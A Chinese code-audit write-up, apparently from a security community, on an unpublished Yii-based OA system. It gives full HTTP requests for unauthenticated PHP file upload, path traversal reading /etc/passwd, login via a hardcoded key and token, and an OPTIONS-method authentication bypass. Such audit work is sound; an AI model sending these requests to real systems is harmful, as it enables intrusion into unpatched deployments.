# 记一次项目中遇到的 YII 框架审计 - 先知社区

记一次项目中遇到的 YII 框架审计

- - -

# 前言

本次审计的是一套`Yii`​框架开发的 OA 系统，算是小 0day 吧，由于尚未公开，大部分都是厚码，凑合着康康，YII 框架的东西感觉实战还是碰到的很多的，因此记录下

# 开发文档

(有的时候一键搭建的时候是会存在一些开发文档的，这些入口文件，路由拼接，都需要去查看这些开发文档)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110128-8054e4dc-d51c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110133-83746a66-d51c-1.png)

可以发现他其实是以`system`​作为根目录来进行模块化管理，所以我们可以对照着开发文档以及登录的接口来对比看这个 MVC 框架是如何对应的，当然了，其实我们可以找到他的`Yii`​入口文件为`/web/index.php`​

这个`index.php`​做了几个定义，首先是设定了我们用户登录的地址为`/oa/main/login`​ 然后应用的入口为`oa`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110139-86fa6ece-d51c-1.png)

抓到登录的接口

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110145-8a8ece72-d51c-1.png)

可以发现是`/oa/main/login`​这样的接口 (由于他有 csrf-token 所以重放包会 302)，所以直接看报错回显就行

那我们再来仔细看看`Yii`​的路由分析 (具体详细的原理代码跟踪在参考链接中可参考)

其实框架的 URI 分析还是有点复杂的 (~看个大概就行~)，这个时候我们来找找这个`/oa/main/login`​是怎么对应的

在`\system\modules\oa\controllers\MainController.php`​ 找到以下代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110151-8e14dc76-d51c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110156-91536f56-d51c-1.png)

继续跟进`\system\modules\user\components\LoginAction::className()`​

搜索一下`账号不存在`​其实就可以找到确实是这么个对应法了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110202-94710400-d51c-1.png)

那么这个路由总结一下

`/oa/main/login`​ -> 模块名 (models)/控制器 (controller)/操作 (action)

当然了，在后续的审计过程中发现其实也给出了相对应的路由访问形式写在了代码中的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110208-983d5156-d51c-1.png)

会在`$dependIgnoreValueList`​ 变量中将一些路由访问形式写出来 (前提是这个`$layout`​是一个@开头的东东)

# 审计

## 上传 1

全局搜了下`move_uploaded_file`​ 然后找了两个在`modules`​下的文件进行审计

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110220-9f2e24e0-d51c-1.png)

当进去看上传逻辑的时候发现有一个很抽象的点，开发把扩展后缀的限制注释掉了，所以导致了后面写`$config`​的时候会没有效果

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110225-a29d83be-d51c-1.png)

那么很有可能就会存在任意文件上传了，然后下面的操作就是跟进了下`saveAs`​方法发现也并没有什么过滤

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110231-a5d863b4-d51c-1.png)

那么接下来就是如何去找到一个控制器是调用了这个类的方法`\system\modules\main\extend\SaveUpload.php#saveFile`​的

emmm 全局搜索了下发现并没有 (我裂开，可是明显确实是有问题的啊) 于是我不死心就在此全局搜索了下`SaveUpload`​这个关键词

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110236-a92b83d4-d51c-1.png)

我突然看到一个点，他通过命名空间来进行调用方法的，所以说只要出现了`SaveUpload::saveFile(`​ (并且在 modules 下) 就会存在任意文件上传了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110242-ac392892-d51c-1.png)

那么在上述已经讲述过了`Yii`​框架的路由分析，所以这个时候只要去找到谁去调用了这些路径的方法即可，比如全局搜索

-   `\system\modules\main\extend\Upload.php`​
-   `\system\modules\party\extend\Upload.php`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110247-af3b1622-d51c-1.png)

但是上述两个最为简单的发现并没有成功 (也不是权限问题感觉)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110252-b24f9bd0-d51c-1.png)

这里属实太多任意文件上传了 (MD 要是 CNVD 估计能刷七八张了吧可惜 bushi)

其实大部分都不能成功的 (为啥？因为鉴权了，但是以下是存在未授权访问的)

-   `contacts/default/upload`​
-   `salary/record/upload`​
-   `knowledge/default/upload`​​​​​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110257-b5874578-d51c-1.png)

而鉴权的代码是这样子的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110303-b8b982ba-d51c-1.png)

最终报文

```bash
POST /index.php/salary/record/upload HTTP/1.1
Host: xxx
Content-Length: 196
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQayVsySyhSwgpmLk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/upload/upload.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryQayVsySyhSwgpmLk
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundaryQayVsySyhSwgpmLk--
```

## 上传 2 + 任意文件下载

一样是全局搜索函数​`move_uploaded_file`​

找到`\web\static\lib\weboffice\js\OfficeServer.php`​这个文件 (因为是在`static`​目录下于是就尝试访问下 (因为很有可能是静态的资源可以直接访问))

所以我们直接访问下发现返回 200 证明文件存在

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110311-bd9b8ada-d51c-1.png)

接着审计代码逻辑

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110316-c0ac6c62-d51c-1.png)

代码很短，可以很轻松读懂，获取一个 json 值，然后获取他的`OPTION`​值满足他的 switch 值就可以进入到上传的逻辑，可以进行文件下载，也可以进行上传

经过测试，可控

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110321-c3a47a90-d51c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110326-c66ff42a-d51c-1.png)

接着就是构造下载包和上传包了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110331-c9c835b0-d51c-1.png)

```bash
GET /static/lib/weboffice/js/OfficeServer.php?FormData={%22OPTION%22:%22LOADFILE%22,%22FILEPATH%22:%22/../../../../../../../../../../../etc/passwd%22} HTTP/1.1
Host: xxxx
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://oa1.shuidinet.com/index.php/oa/main/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110341-cf711ab8-d51c-1.png)

```bash
POST /static/lib/weboffice/js/OfficeServer.php?FormData={%22OPTION%22:%22SAVEFILE%22,"FILEPATH":"/222.php"} HTTP/1.1
Host: xxxx
Content-Length: 202
Cache-Control: max-age=0
sec-ch-ua: 
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQayVsySyhSwgpmLk
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1/upload/upload.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryQayVsySyhSwgpmLk
Content-Disposition: form-data; name="FileData"; filename="222.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundaryQayVsySyhSwgpmLk--
```

## 任意用户登录

在上传的篇章中其实是可以知道架构的，所以看了下`oa`​下的文件，发现`Auth`​的鉴权控制器查看后发现存在硬编码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110348-d4089916-d51c-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110353-d6f13bb0-d51c-1.png)

当然也给了注释

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110358-d9ad3250-d51c-1.png)

那么构造逻辑即可成功登录，传入`user`​ base64 加密的内容并且跟 key 进行拼接后再 md5 加密传为`token`​，两者相等即可登录

前提是 user 是存在的 (跑一下就知道是 zhangsan 存在)

```bash
GET /oa/auth/withub?user=emhhbmdzYW4=&token=b336aa3ea64e703583bb7cbe6d924269 HTTP/1.1
Host: xxxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

# user zhangsan
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110406-dea0bc14-d51c-1.png)

直接跳转即可登录了​​

## 权限绕过

找到这个文件 `api/modules/v1/controllers/UserController.php`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110419-e620f742-d51c-1.png)

我的内心想法和审计思路：在众多目录中当我看完开发文档中的`system`​根目录我去瞄一眼`api`​目录是一件很符合逻辑的事情，细看这里有一个这么写的代码

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110430-ecda5074-d51c-1.png)

```bash
// 不需要认证的方法，用下划线形式，如 get_info
    public $notAuthAction = ['auth','verify-url'];
```

又因为他的方法名为

```bash
actionVerifyUrl()
actionGetInfo() 
actionAuth()
```

那么通过挖洞大牛子的大脑一眼丁真所以直接传参 (所以配合上述来看，`actionAuth`​ 和 `VerifyUrl`​ 不需要鉴权 )

那也就是说`GetInfo`​是需要鉴权的，我们传参进去试试

这里就有个疑问了？如何传参？(这就需要去熟悉一下`Yii`​的框架了) 所以从他的`/web/`​下的入口文件来找到定义`/api`​的入口 -> `oa-api.php`​

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110439-f25b6b50-d51c-1.png)

那么我尝试了下以下传参后发现返回 404

```bash
/oa-api.php/v1/user/getinfo?id=1
```

于是重新回过头来查看这串代码

```bash
public $notAuthAction = ['auth','verify-url'];
```

发现可能中间会存在`-`​来进行分割 (~这是要有多细心~)

所以最终通过以下传参发现成功传入但回显为 401 证明存在鉴权

```bash
/oa-api.php/v1/user/get-info?id=1
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110446-f6494f3e-d51c-1.png)

这里因为他继承了`BaseApiController`​ 所以跟进父类查看

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110452-f9e0ca82-d51c-1.png)

tips: 这里的`behaviors`​方法应该是会先走的 (具体为啥可能因为是`yii`​框架的原因吧 )

所以下边有一个`||`​进行了一个`if`​判断 (又是猜猜猜了) 这里判断登录是否请求方式为`OPTIONS`​ 或者 是不鉴权的接口 (`notAuthAction`​) 就进入下面逻辑，那就猜测通过`OPTIONS`​后就不鉴权了接口于是构造报文

[](https://xzfile.aliyuncs.com/media/upload/picture/20240227110458-fd9738d2-d51c-1.png)

# 参考链接

-   [https://blog.csdn.net/yang1018679/article/details/105929162](https://blog.csdn.net/yang1018679/article/details/105929162) (Yii 路由分析一)
-   [https://blog.csdn.net/yang1018679/article/details/105935326](https://blog.csdn.net/yang1018679/article/details/105935326) (Yii 路由分析二)

# 总结

-   一定要细心，多仔细去猜测开发的思路
-   多猜测一些奇怪的写法 (以黑盒的逻辑来看白盒)
-   要有经验 (本次`Yii`​确实是第一次审 比较吃力了)

这里小插曲，我非常虚心的去问了一下审计的大牛子，原来发现代码审计如此简单啊！

[](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401031131522.png)​​

‍
